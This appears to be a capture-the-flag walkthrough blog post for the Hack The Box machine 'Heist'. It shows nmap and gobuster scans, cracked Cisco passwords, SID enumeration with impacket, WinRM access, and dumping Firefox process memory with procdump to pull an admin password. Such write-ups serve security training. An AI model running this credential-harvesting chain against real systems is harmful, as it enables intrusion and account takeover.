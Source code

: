 ```yaml
---
title: "Hackthebox Heist Walkthrough"
date: 2021-07.03 15.00 
categories: [Hackthebox, Linux]
tags: [procdump]
author: CEngover
image: /assets/img/posts/heist/heist.png
---
```

## Reconnaissance

As always we do, let's start with nmap scanning.

```bash
cengover@kali:~/htb/heist$ sudo nmap -sC -sV -oN nmap/hesit-top-ports 10.10.10.149
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-03 06:18 EDT
Nmap scan report for 10.10.10.149
Host is up (0.076s latency).
Not shown: 997 filtered ports
PORT    STATE SERVICE       VERSION
80/tcp  open  http          Microsoft IIS httpd 10.0
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
| http-title: Support Login Page
|_Requested resource was login.php
135/tcp open  msrpc         Microsoft Windows RPC
445/tcp open  microsoft-ds?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 12m28s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-07-03T10:31:08
|_  start_date: N/A


```

We have 3 ports open which are default http and smb service ports. On smb we cannot do anything for now. It's required authentication. 

There is a login page which is written in PHP on HTTP service. We can visit there by following 80 port. Doing fuzzing process we can see what kind of files we reach on web server.

```bash
cengover@kali:~/htb/heist$ gobuster dir -u http://heist.htb -w /opt/SecLists/Discovery/Web-Content/raft-small-words-lowercase.txt -x php,txt,html,sql
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://heist.htb
[+] Threads:        10
[+] Wordlist:       /opt/SecLists/Discovery/Web-Content/raft-small-words-lowercase.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php,txt,html,sql
[+] Timeout:        10s
===============================================================
2021/07/03 06:33:13 Starting gobuster
===============================================================
/login.php (Status: 200)
/images (Status: 301)
/js (Status: 301)
/index.php (Status: 302)
/css (Status: 301)
/attachments (Status: 301)
/. (Status: 302)
/errorpage.php (Status: 200)
/issues.php (Status: 302)

```

There are a lot file that we can check but once we login as guest user, we'll see a conversation between Hazard and Support Admin. Once we click attachment link we can see there are usernames and encoded passwords which are seem like belonging to Cisco Router config file. After cracking the passwords we'll get following decoded passwords.

```
$1$pdQG$o8nrSzsGXeaduXrjlvKc91 -> stealth1agent
0242114B0E143F015F5D1E161713 -> $uperP@ssword
02375012182C1A1D751618034F36415408 -> Q4)sJu\Y8qz*A3?d
```

We can list shared folders with `Hazard` and `stealth1agent` credentials but we have no access on these folders.

```bash
cengover@kali:~/htb/heist$ smbmap -H 10.10.10.149 -u 'Hazard' -p 'stealth1agent'
[+] IP: 10.10.10.149:445        Name: heist.htb                                         
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC


```


For more enumeration I tried enum4linux tool but `SID` is required for these creds. After that I used one of the impacket tools called `lookupsid.py` for user enumeration and found there are many user such as Chase, Jason etc.

```bash
cengover@kali:~/htb/heist$ python3 lookupsid.py Hazard:stealth1agent@heist.htb
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Brute forcing SIDs at heist.htb
[*] StringBinding ncacn_np:heist.htb[\pipe\lsarpc]
[*] Domain SID is: S-1-5-21-4254423774-1266059056-3197185112
500: SUPPORTDESK\Administrator (SidTypeUser)
501: SUPPORTDESK\Guest (SidTypeUser)
503: SUPPORTDESK\DefaultAccount (SidTypeUser)
504: SUPPORTDESK\WDAGUtilityAccount (SidTypeUser)
513: SUPPORTDESK\None (SidTypeGroup)
1008: SUPPORTDESK\Hazard (SidTypeUser)
1009: SUPPORTDESK\support (SidTypeUser)
1012: SUPPORTDESK\Chase (SidTypeUser)
1013: SUPPORTDESK\Jason (SidTypeUser)

```

Now we can try passwords that we found before on these users. On smb I could not get access again. After a full port scanning we can see there is another port wh,ch is 5985.

```bash
cengover@kali:~/htb/heist$ nmap -sV -p- heist.htb -oN nmap/heist-all-ports -v
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-03 07:18 EDT
NSE: Loaded 45 scripts for scanning.
Initiating Ping Scan at 07:18
Nmap scan report for heist.htb (10.10.10.149)
Host is up (0.074s latency).
Not shown: 65530 filtered ports
PORT      STATE SERVICE       VERSION
80/tcp    open  http          Microsoft IIS httpd 10.0
135/tcp   open  msrpc         Microsoft Windows RPC
445/tcp   open  microsoft-ds?
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49669/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

```


## Getting Initial Access

We can try to get initial access with the usernames and passwords on this port via evil-winrm. 

![Getting Access](/assets/img/posts/heist/access.png)

After some searching on the box I saw there is firefox.exe and there are running process that blong to firefox.

```bash
[0;31m*Evil-WinRM*[0m[0;1;33m PS [0mC:\Users\Chase\Desktop> ps                                                                                                       
Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName                                                                                                                                                                      
-------  ------    -----      -----     ------     --  -- -----------                                                                                               
    355      25    16352     297340       0.09   6100   1 firefox          
   1049      77   206088     559208       7.91   6644   1 firefox          
    347      19     9968      34768       0.08   6752   1 firefox
    401      36    51716     111188       1.14   6880   1 firefox
    378      30    35104      71328       0.88   7152   1 firefox  
```

Let's upload `procdump` and dump one of these process.

```bash
[0;31m*Evil-WinRM*[0m[0;1;33m PS [0mC:\Users\Chase\Desktop> upload procdump64.exe                                                                                                                                                          
Info: Uploading procdump64.exe to C:\Users\Chase\Desktop\procdump64.exe                    
[0;31m*Evil-WinRM*[0m[0;1;33m PS [0mC:\Users\Chase\Desktop> dir                           
Mode                LastWriteTime         Length Name             
----                -------------         ------ ----
-a----         7/3/2021   5:24 PM         384888 procdump64.exe             
-a----        4/22/2019   9:08 AM            121 todo.txt   
-a----        4/22/2019   9:07 AM             32 user.txt


[0;31m*Evil-WinRM*[0m[0;1;33m PS [0mC:\Users\Chase\Desktop>./procdump64.exe -accepteula -ma 6100

ProcDump v10.0 - Sysinternals process dump utility
Copyright (C) 2009-2020 Mark Russinovich and Andrew Richards
Sysinternals - www.sysinternals.com

[17:40:02] Dump 1 initiated: C:\Users\Chase\Desktop\firefox.exe_210703_174002.dmp
[17:40:02] Dump 1 writing: Estimated dump file size is 298 MB.
[17:40:03] Dump 1 complete: 298 MB written in 0.4 seconds
[17:40:03] Dump count reached.


[0;31m*Evil-WinRM*[0m[0;1;33m PS [0mC:\Users\Chase\Desktop> download firefox.exe_210703_174002.dmp
Info: Downloading C:\Users\Chase\Desktop\firefox.exe_210703_174002.dmp to firefox.exe_210703_174002.dmp

```

## Privilege Escalation

After got this dump, we can see human readable text with string command and we can search whatever we want.

```bash
cengover@kali:~/htb/heist$ strings firefox.exe_210703_174002.dmp | grep -n "login_password"
844:MOZ_CRASHREPORTER_RESTART_ARG_1=localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
2304:RG_1=localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
2356:MOZ_CRASHREPORTER_RESTART_ARG_1=localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
```

As final step, once we use this password with Administrator account we can get full privilige on the system.

![Getting Admin Privileges](/assets/img/posts/heist/getting_admin.png)


